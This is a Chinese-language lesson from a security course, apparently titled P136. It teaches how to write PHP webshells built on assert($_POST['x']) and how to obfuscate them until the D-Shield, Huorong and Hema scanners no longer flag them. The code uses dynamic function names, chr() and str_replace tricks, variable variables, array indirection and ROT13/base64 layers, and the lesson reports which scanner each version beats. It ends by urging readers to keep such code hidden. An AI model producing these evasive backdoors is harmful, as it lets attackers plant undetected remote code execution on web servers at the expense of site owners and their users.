




# 网络安全实战：P136：实战Webshell免杀过河马、D盾、火绒

在本节课中，我们将学习如何手动编写一个Webshell，并利用多种技术手段绕过主流安全软件的静态检测，包括D盾、火绒以及专业的河马Webshell查杀工具。我们将从原理出发，逐步构建一个免杀的Webshell。

## 概述：Webshell免杀的核心思路

Webshell免杀的核心在于混淆和变形，使恶意代码的特征不被安全软件识别。主要方法包括动态函数执行、变量掺杂、字符串拼接与替换、编码运算等。这些方法可以单独或组合使用，以降低代码的可疑性。

## 第一节：动态函数执行

上一节我们概述了免杀的核心思路，本节中我们来看看第一种具体方法：动态函数执行。其原理是将原本静态调用的函数名，转换为通过变量动态拼接和执行的方式。

最原始的Webshell代码如下，它无法通过任何安全检测：
```php
ASSERT($_POST['x']);
```

**动态执行**是指将函数名赋值给一个变量，然后通过变量来调用函数。变形后的代码如下：
```php
$e = "ASSERT";
$e($_POST['x']);
```
这段代码的功能与原始代码完全一致。`$e` 变量存储了字符串 `"ASSERT"`，`$e($_POST['x'])` 就相当于执行 `ASSERT($_POST['x'])`。

基于此原理，我们可以进行更复杂的变形，例如将函数名拆分成多个部分再进行拼接：

```php
$a = "A";
$b = "S";
$c = "S";
$d = "E";
$e = "R";
$f = "T";
$x = $a . $b . $c . $d . $e . $f;
$x($_POST['x']);
```
变量 `$x` 通过拼接 `$a` 到 `$f` 的值，最终仍然得到字符串 `"ASSERT"`，执行效果不变。

**测试结果**：使用动态执行方式后，在D盾中的检测等级从最高的5级降低到了2级，说明可疑性显著降低，但依然会被识别为木马。这为我们后续的叠加混淆提供了基础。

## 第二节：变量掺杂与字符串替换

在掌握了动态执行的基础上，我们可以引入更复杂的混淆手段：变量掺杂与字符串替换。此方法的核心是利用PHP内置函数对关键字符串进行加工和替换，进一步隐藏真实意图。

以下是变量掺杂的一个示例：
```php
$e = str_replace(“d”, “”, “ASdSdERT”);
```
这段代码使用 `str_replace` 函数将字符串 `"ASdSdERT"` 中的所有字母 `"d"` 替换为空，最终 `$e` 的值仍然是 `"ASSERT"`。

我们还可以使用ASCII码值来构造字符串：
```php
$e = “ASS”;
$f = chr(69) . chr(82) . chr(84); // E的ASCII是69，R是82，T是84
$func = $e . $f; // $func = “ASSERT”
```
这里，`chr()` 函数将ASCII码转换为对应的字符，`$f` 被构造成 `"ERT"`，与 `$e` 拼接后得到完整的函数名。

**测试结果**：使用函数进行替换和掺杂后，D盾的检测等级变为3级，比简单的动态拼接可疑性更高。这说明单纯的替换如果模式固定，仍可能被识别。我们需要更深入的混淆。

## 第三节：利用数组进行深度混淆

前面两节介绍的方法仍可能被高级规则匹配到，本节我们将使用数组进行深度嵌套和混淆，这是实现静态免杀的关键一步。

首先，我们看一个能绕过D盾和火绒的示例代码片段：
```php
$e = “ASSERT”;
$W = “Baili”;
$$W = $e; // 相当于 $Baili = “ASSERT”;

$c = ${“Baili”};
$array = array(“a” => $c);
$array[“a”]($_POST[‘x’]);
```
这段代码看起来复杂，我们来逐步解析其核心逻辑：
1.  `$e = “ASSERT”;` 定义关键函数名。
2.  `$$W = $e;` 这是一个可变变量。因为 `$W = “Baili”`，所以 `$$W` 等价于 `$Baili`。这行代码意为 `$Baili = “ASSERT”;`。
3.  `$c = ${“Baili”};` 通过花括号语法获取变量 `$Baili` 的值，所以 `$c = “ASSERT”;`。
4.  将 `$c` 作为值存入数组 `$array` 的键 `“a”` 下。
5.  最后通过数组键名调用函数：`$array[“a”]($_POST[‘x’]);`，即执行 `ASSERT($_POST[‘x’])`。

**其核心简化模型如下**：
```php
$malware = “ASSERT”;
$container = array(“key” => $malware);
$container[“key”]($_POST[‘x’]);
```
通过将关键的恶意代码（函数名）隐藏在一个普通的数组变量中，我们极大地增加了静态特征检测的难度。

**测试结果**：使用这种数组嵌套的方式，成功绕过了D盾和火绒的静态检测，两者均未报告风险。

## 第四节：对抗专业查杀工具（河马）

虽然我们已绕过部分工具，但河马（Webshell查杀）是更专业的在线检测引擎。要绕过它，需要在之前混淆的基础上，进行更复杂的多层编码和变换。

以下是针对河马进行强化混淆的代码思路（示例结构）：
```php
// 多层字符串替换和拼接
$part1 = str_rot13(“NFFREG”); // 经过ROT13编码
$part2 = base64_decode(“RVJU”); // 经过Base64编码
$funcName = $part1 . $part2; // 拼接后解码或直接使用



// 将关键动作隐藏在Cookie等超全局数组的校验中
if (isset($_COOKIE[‘key’])) {
    $code = $_COOKIE[‘key’];
    // 对$code进行复杂的解码和校验流程
    $finalFunc = someComplexDecode($code);
    $finalFunc($_POST[‘cmd’]);
}
```
此阶段的核心是：
1.  **多重编码**：混合使用Base64、ROT13、十六进制、ASCII码等多种编码方式。
2.  **逻辑分离**：将恶意代码的触发条件与执行逻辑分离，例如通过HTTP请求参数传递关键的解码密钥。
3.  **增加无害代码**：插入大量无关的运算、字符串操作或合法函数调用，干扰分析。





**测试结果**：经过这种深度混淆和编码的Webshell，成功绕过了河马Webshell查杀工具的检测。

## 总结

本节课中我们一起学习了Webshell静态免杀的几种核心手法：
1.  **动态函数执行**：将静态函数名转为变量动态拼接，降低直接特征匹配的概率。
2.  **变量掺杂与替换**：利用字符串函数和编码（如ASCII）对关键字符进行替换和构造。
3.  **数组结构混淆**：将关键代码隐藏在数组等复杂数据结构中，有效绕过浅层特征扫描。
4.  **多层编码对抗专业工具**：面对河马等高级查杀工具，需要结合多种编码方式、逻辑分离和代码膨胀技术，进行深度混淆。



免杀是一个持续对抗的过程，其本质是增加代码的分析复杂度。理解这些基础原理后，你可以灵活组合运用，并保持对安全软件检测策略的关注，以维护代码的隐蔽性。